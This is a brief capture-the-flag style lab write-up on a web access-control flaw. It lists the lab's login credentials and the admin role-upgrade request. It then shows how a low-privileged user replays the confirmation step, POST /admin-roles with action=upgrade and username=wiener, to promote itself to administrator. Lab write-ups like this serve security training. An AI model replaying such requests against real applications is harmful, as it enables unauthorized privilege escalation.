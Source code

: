 # recon

## log in details
- administrator:admin
- wiener:peter


##  administrator page
### upgrade user
- url: POST /admin-roles    request_body:  username=carlos&action=upgrade
    #### step2: confirmation: yes
    - POST /admin-oles request body: action=upgrade&confirmed=true&username=carlos


# solution
let's use the last url to upgrade ourselves
- login using wiener:peter
- send the request POST /admin-roles and request body: http:action=upgrade&confirm=true&username=wiener
notice the lab is solved, and you are now an administrator;
- navigate to /admin
- upgrade carlos
- congrats you solved the lab...


HAPPY HACKING :)
